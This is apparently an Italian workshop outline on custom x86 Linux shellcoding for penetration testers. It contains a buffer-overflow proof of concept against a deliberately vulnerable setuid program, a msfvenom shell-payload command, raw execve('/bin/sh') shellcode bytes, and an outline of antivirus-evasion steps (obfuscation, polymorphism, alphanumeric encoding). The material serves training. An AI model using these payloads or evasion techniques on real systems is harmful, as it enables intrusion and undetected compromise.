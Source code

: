 # x86 shellcoding cakestar

## Introduzione

Quando facciamo un penetration test, il più delle volte utilizziamo exploit già
pronti o usiamo strumenti come msvfenom per creare un payload con qualche
opzione particolare.

Esistono situazioni dove hai bisogno di essere più creativo: devi evitare
l'antivirus, devi nasconderti dall'IDS o semplicemente vuoi divertirti un po'
ed avere il pieno controllo del codice che sarà eseguito sulla macchina.

Ecco, in questo talk vedremo come creare 2 shellcode veramente semplici in
ambiente Linux x86 e, partendo da un codice funzionante, andremo ad aggiungere
tecniche di offuscamento, egg hunting e polimorfismo per far evolvere il nostro
payload.

Il bypass dell'antivirus forse non sarà garantito, ma il divertimento... quello
sì.

## A chi è rivolto?

Penetration tester Analisti SOC Sviluppatori

## Livello di difficoltà

BASSO

## Skill richieste

* Conoscenze base di assembler x86
* Sapere cos'è una _system call_
* Un pizzico di python o ruby o il linguaggio che più vi piace a cui accodare
  il nostro shellcode.

## Cosa mi serve

* Una macchina virtuale Linux per lo sviluppo (scriveremo assembler per x86, quindi a 32 bit).
  * Ubuntu 20.04
  * apt install apt install python3 gcc-multilib nasm gdb
  * peda: https://github.com/longld/peda
  * clonate l'archivio https://github.com/thesp0nge/HackInBoSafeEdition
  * Disabilito ASLR "echo 0 > /proc/sys/kernel/randomize_va_space"

## Preparo la vittima

Ho bisogno di compilare il programma vittima per iniziare le esercitazioni.

``` sh
$ ./compile.sh pwnme.c
$ sudo "chown root:root pwnme"
$ sudo "chmod +s pwnme"
```

## L'inizio della nostra storia

Da una analisi precedente sappiamo che il software pwnme è vulnerabile a buffer
overflow. Il contenuto del file pwnme.txt, necessario al funzionamento del
nostro tool, vieme copiato in una variabile, purtroppo senza fare un controllo
sulla lunghezza dei dati letti da file.

Nel caso il file di testo sia costituito da troppi caratteri, dopo 84 byte
avremmo la sovrascittura del registro EIP e di fatto, l'inizio della nostra
storia.

Il PoC del nostro exploit sarà questo:
``` python
#!/usr/bin/env python3

import os;

eip="BBBB"
shellcode = "A"*84+eip+"C"*200
f = open("pwnme.txt","w")
f.write(shellcode)
f.close()
```

Abbiamo provato con metasploit a generare un payload con il comando:

```sh
$ msfvenom -p linux/x86/exec CMD=/bin/sh -f elf -o a.out
```

Purtroppo veniamo individuati da alcuni antivirus, quindi dobbiamo trovare un
altro modo per scrivere il nostro shellcode.

![Il payload di msfvenom su VirusTotal](/images/msfvenom.png)

### Disclaimer

Questo talk non è su come trovare un buffer overflow ma su come customizzare il
nostro shellcode. Il programma vulnerabile quindi è stato scritto introducendo
la vulnerabilità in maniera forzata, in particolare:

* è stato aggiunto dell'inline assembler per mettere a disposizione
  l'istruzione JMP ESP
* avendo disattivato la randomizzazione dello stack, ho il nuovo valore del
  registro EIP sempre fisso

Queste tecniche possono ingannare strumenti basati su signature. Strumenti
evoluti che provano ad eseguire il codice in sandbox potrebbero comunque
riconoscere i nostri payload. Un security engineer che troverà il payload e ne
farà il reverse sarà comunque in grado di riconoscerne il contenuto malevolo.

## Shellcode

Andremo ad analizzare lo shellcode che esegue "/bin/sh" e queste saranno le tappe del nostro viaggio:
* v1.0: da dove arriva
   "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"?
   (https://www.virustotal.com/gui/file/d2b927c46e08ddb7f4d8471247e7008f7200ca24962094d343248e9a7a0fe870/detection)
* v2.0: manovre evasive! (https://www.virustotal.com/gui/file/93f5fc907caa0a5e00e320b59a13059e28c243f13c75ef5c5309eff23dfe15be/detection)
* v2.1: diamoci dei privilegi (https://www.virustotal.com/gui/file/1596d2642b5656ee0e8cf137c097a308329d3cbdcb238c921a605e0b148b9959/detection)
* v2.5: togliamo i null byte (https://www.virustotal.com/gui/file/d98b0c36e6dacd22f4f5b1192b7d630221346fb5b2a177eaa00dc1a944aa232f/detection)
* v3.0: nascondino (bonus tip: il mistero del segfault solitario) (https://www.virustotal.com/gui/file/9de443e65e82833c66910bbdee23b1bfea7635adcb5c8cc5a6d7cccd04d47a22/detection)
* v4.0: torniamo all'alfabeto
  + prendo il mio shellcode e lo scrivo con un set ristretto di operazioni
  + allineo il mio shellcode in modo che sia composto da un numero intero di
    parole a 32 bit. Nel caso appendo tanti \x90 alla bisogna.
  + per impostare un registro a 0 posso scegliere un numero a 32 bit a caso,
    calcolarne il NOT e poi fare l'AND tra il registrro e questi due valori.
    Come risultato avremmo che il registro sarà sempre a 0 qualsiasi sia il suo
    valore iniziale.


